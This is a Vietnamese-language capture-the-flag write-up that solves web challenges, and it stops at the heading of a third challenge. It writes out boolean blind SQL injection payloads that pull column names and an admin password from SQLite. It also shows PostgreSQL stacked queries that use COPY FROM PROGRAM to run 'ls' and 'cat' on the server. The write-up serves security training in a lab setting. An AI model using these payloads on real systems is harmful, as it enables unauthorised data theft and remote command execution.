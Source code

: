 # Mục Lục
- [Simple Blind SQL Injection](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/cookieArena.md#1-simple-blind-sql-injection)
- [Baby SQL Injection to RCE](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/cookieArena.md#2-baby-sql-injection-to-rce)
- [Blind Logger Middleware](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/cookieArena.md#3-blind-logger-middleware)
------------
# 1. Simple Blind SQL Injection

## Đầu bài cho biết
- Lấy mật khẩu của `admin`, sau đấy vào `/login` để lấy flag
- Trường mật khẩu gồm từ a-z, 0-9 và _
- cột `upw`

## Giải

![image](https://github.com/user-attachments/assets/e1d35a2f-51e1-4150-a4c8-f48f13411677)

- Đầu tiên với giao diện có 1 trường nhập UID và 1 truy vấn viết phía bên trên là `SELECT * FROM users WHERE uid='';`
- Thử nhập `admin` vào

![image](https://github.com/user-attachments/assets/5da2f3d6-39cd-47e1-b14d-d2edd088a1f8)

- Thử với uid khác `haha`

![image](https://github.com/user-attachments/assets/144f8979-b72c-4b32-b0f5-3b08d53942db)

- Có thể thấy chức năng này là kiểm tra uid nhập vào là có tồn tại trong database hay không.
- Thử với `'` và `''` thì `''` cho kết quả `not found` còn `'` báo lỗi như này:

![image](https://github.com/user-attachments/assets/a7dc3ce9-4a4d-48e5-8cb3-92347cdd0cfd)

- Chú ý vào `nrows = 1 if query_db("SELECT * FROM users WHERE uid ='%s'" % uid, one=True) else 0`, thì có thể hiểu là nó sẽ lấy thông tin được vào ô `UID` và chèn trực tiếp vào truy vấn SQL, nó bị lỗi vì thừa dấu `'` trong truy vấn làm hỏng cú pháp
- Từ việc chèn trực tiếp đó cùng với thông tin thông báo `exists`, `not found` có thể chắc chắn đấy là Boolean SQLi

- Đầu tiên, thử nhập vào với: `admin' AND 1=1 --`

![image](https://github.com/user-attachments/assets/2069767c-2547-4028-9f61-d2d3eca14e98)

- Thử số cột có trong bảng `users`: `admin' ORDER BY 1 --`, khi thử đến 4 thì có lỗi xảy ra

![image](https://github.com/user-attachments/assets/f57a18cb-b9bb-4229-996f-52872e72fb9e)

- Vậy bảng `users` này có 3 cột
- Biết: 
    + Bảng: users
    + Column: uid, upw, NULL
- Bây giờ cần đi tìm cột này để xác định xem có phải là cột password hay không?
- Với sqlite thì ta có thể thử dùng `name` với `PRAGME_TABLE_INFO(users)` để lấy tên các cột trong bảng (Cái này em hỏi GPT chứ không biết kiếm ở đâu 🤡)
- `admin' AND (SELECT name FROM PRAGMA_TABLE_INFO('users') LIMIT 1) = 'uid' --`

![image](https://github.com/user-attachments/assets/274bb17c-cf12-4e49-8221-f13ee8dbd711)

- Cột đầu tiên không phải là `uid`, ta đổi qua cột khác bằng cách thêm `OFFSET 1`

![image](https://github.com/user-attachments/assets/890ccf2b-d540-45a3-82e5-ec5228c27d48)

![image](https://github.com/user-attachments/assets/a91d28c0-54f6-42ad-bcf3-debca4ac1a7e)

- Vậy cột đầu là cột cần tìm
- Xem độ dài tên cột này rồi Brute Force ra thui:
- Thử độ dài: `admin' AND (SELECT LENGTH(name) FROM PRAGMA_TABLE_INFO('users') LIMIT 1 OFFSET 0) = 3 --`

![image](https://github.com/user-attachments/assets/92138a38-5eb8-4a35-bec9-4367a4c16750)

- Dùng SUBSTRING() để Brute Force ra: `admin' AND (SELECT SUBSTRING(name, 1, 1) FROM PRAGMA_TABLE_INFO('users') LIMIT 1 OFFSET 0) = 'a' --`

![image](https://github.com/user-attachments/assets/43e68417-cea6-4da2-b6a2-25f9b96c675c)

- Ta được tên cột là `idx`, trong 3 cột thì cái có khả năng là mật khẩu nhất là `upw`
- Ta thử lấy thông tin của `upw` với `uid = admin`: `admin' AND (SELECT SUBSTRING(upw, 1, 1) FROM users WHERE uid = 'admin') = 'a' --`
- Rồi lại đưa lên Intruder để Brute Force nó

![image](https://github.com/user-attachments/assets/4b65567c-b760-4e75-b342-5e17ab96d7eb)

- Chuyển qua `/login` và đăng nhập với username = `admin` và pass = `y0u_4r3_4dm1n`

![image](https://github.com/user-attachments/assets/541b7fba-906d-4bc4-b231-9bed994354f8)

# 2. Baby SQL Injection to RCE

## Đầu bài cho biết
- Challenge đang chạy với PostgreSQL and PHP.
- Flag File: /flagXXXX.txt

## Hint
- Sử dụng Stacked Query: là việc có thể sử dụng nhiều câu truy vấn bằng cách ngăn cách giữa các câu truy vấn bằng dấu ';'

![image](https://github.com/user-attachments/assets/fca0de01-a3f1-463c-b405-30f503ab6a75)

## Giải

![image](https://github.com/user-attachments/assets/c6daf554-ff8e-498f-9ff7-d7bc60b5aee9)

- `'OR 1=1 --` có thể khai thác được lỗ hổng SQL ở đây

![image](https://github.com/user-attachments/assets/99efbf7f-791c-468a-8585-822bcb9dab15)

- Mục tiêu của mình là dựa vào lỗ hổng này để tìm và mở được 1 file là `flagXXXX.txt` và lấy flag trong file đó
- Quan sát thì thấy, khi nhập username hoặc pass thì nó chỉ có 2 trường hợp xảy ra:

![image](https://github.com/user-attachments/assets/a03a8305-8809-4770-ad28-b7f77d5f245a)
![image](https://github.com/user-attachments/assets/362232fe-47e6-4aa4-b134-707a9e32e0b9)

- Ở đây khá chắc là Boolean SQli
- Vì ở đây nó không cho ta biết được kết quả của chuỗi truy vấn nên ta không thể trực tiếp chèn các hàm như `pg_read_file()`, `cat` đêr trực tiếp đọc file này. Mặt khác, ta cũng không có tên của file flag để đọc 😃
- Vậy là bây giờ cần:
    + Tạo ra 1 bảng mới
    + Lấy tên tất cả các file đưa vào bảng mới tạo
    + Dùng cách dò đúng sai để biết được các tên file flag cần tìm
- Tạo bảng mới: `admin'; CREATE TABLE abc(aaa text);--`
    + ![image](https://github.com/user-attachments/assets/32ade69b-5395-4239-943b-c3e676a737ad)
    + Gửi lại lần 2 để xác nhận bảng `abc` đã tồn tại
- Đưa tất cả tên file vào trong bảng `abc` vừa tạo: `admin'; COPY abc FROM PROGRAM 'ls / -m';--` (Với `ls / -m`) để đưa tất cả tên file vào 1 dòng duy nhất
- Brute force từng chữ: `admin' OR (SELECT SUBSTRING(aaa,1,1) FROM abc LIMIT 1) = 'a'--`
    + Nếu ra `Welcome, admin...` thì là đúng
    + Ra `Invalid username or password!` thì ký tự đó sai
- Đưa vào Intruder:
![image](https://github.com/user-attachments/assets/f72ef139-71ac-4093-a639-c2c6a3b3b337)

- Vậy là ta kiếm được tên file là `flags3JDE.txt`
- Tương tự với cách trên, ta tạo 1 bảng chứa nội dung của file `flags3JDE.txt`
    + `'; CREATE TABLE efg(sss text);--`
    + `'; COPY efg FROM PROGRAM 'cat /flags3JDE.txt';--`
    + Rồi tương tự dùng brute force để đọc lại bảng `efg`: `' OR (SELECT SUBSTRING(sss,1,1) FROM efg LIMIT 1) = 'a'--`

----------------------------
### Script python:
- [Tìm tên file](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/ckArenapy/Baby_SQL_Injection_to_RCE_1.py)
- [In flag](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/ckArenapy/Baby_SQL_Injection_to_RCE_2.py)
----------------------------


# 3. Blind Logger Middleware
